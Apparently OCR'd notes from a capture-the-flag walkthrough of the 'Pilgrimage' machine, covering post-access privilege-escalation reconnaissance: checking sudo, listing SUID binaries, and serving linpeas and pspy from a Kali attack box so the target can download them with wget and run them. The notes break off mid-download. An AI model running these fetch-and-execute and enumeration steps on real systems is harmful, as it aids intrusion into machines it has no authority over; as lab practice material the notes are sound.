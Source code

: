 ```bash
emily@pilgrimage:~$ sudo -l
[sudo] password for emily: 
Sorry, user emily may not run sudo on pilgrimage.

```
- look for exploitable binary's
	- `$ find / -perm /4000 2>/dev/null'
```bash
emily@pilgrimage:~$ find / -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/su
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/umount

```

- download linpeas on attack box if you don't have it already
- ` ✘ kali@kali  ~  sudo apt install peass`
- navigate to /usr/share/peass/linpeas
- spin up python server on attack machine
- `python3 -m http.server`
- pull down linpeas to target machine from attack machine 
```bash
emily@pilgrimage:~$ wget http://10.10.16.12/linpeas.sh                                                                                
--2025-01-31 10:11:11--  http://10.10.16.12/linpeas.sh
Connecting to 10.10.16.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830426 (811K) [text/x-sh] 
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[===========================================================>] 810.96K  1.03MB/s    in 0.8s    

2025-01-31 10:11:12 (1.03 MB/s) - ‘linpeas.sh’ saved [830426/830426]

```
- run linpeas on victim
	- look for red and yellow/red items
	- but found nothing
```bash
$ emily@pilgrimage:~$ /bin/bash linpeas.sh
```

- download pspy on attackbox if you don't have it already
- [pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)
- I had to download `64 bit big, static version: pspy64` from the website 
- then copy from downloads to `/usr/share`
- navigate to `/usr/share` and 
- spin up python server on attack machine `python3 -m http.server`
- pull down pspy to target 
```bash
emily@pilgrimage:/tmp$ wget http://10.10.16.12/pspy64                                                                                 
--2025-01-31 10:46:16--  http://10.10.16.12/pspy64                                                                                    
```